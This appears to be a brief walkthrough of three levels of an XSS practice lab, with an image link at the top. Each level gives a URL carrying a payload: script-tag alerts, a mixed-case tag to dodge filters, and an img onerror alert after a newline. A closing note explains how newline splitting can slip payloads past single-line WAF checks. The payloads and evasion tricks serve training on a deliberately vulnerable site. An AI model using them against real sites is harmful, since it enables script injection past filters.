 Level 1: [http://www.zixem.altervista.org/XSS/1.php?name=<script>alert(1337)</script>](https://zixem.altervista.org/XSS/1.php?name=%3Cscript%3Ealert(1)%3C/script%3E) \
Level 2: [http://www.zixem.altervista.org/XSS/2.php?name=<scrIpt>alert(1337)</scrIpt>](https://zixem.altervista.org/XSS/2.php?name=%3CscrIpt%3E%20alert(1)%3C/scrIpt%3E) \
Level 3:[(https://zixem.altervista.org/XSS/3.php?name=zxm%0A<img src=”x” onerror=alert(1337)>)](https://zixem.altervista.org/XSS/3.php?name=zxm%0A%3Cimg%20src=%E2%80%9Dx%E2%80%9D%20onerror=alert(1337)%3E)) \
Using %0A URL-encoded representation of a newline character (Line Feed, LF, \n) in ASCII and UTF-8 encoding. \
Some WAFs only scan for dangerous keywords within a single line. If an attack payload is split across multiple lines (e.g., using %0A for a newline), the filter may fail to detect it, allowing bypass techniques for XSS, SQLi, and other attacks.

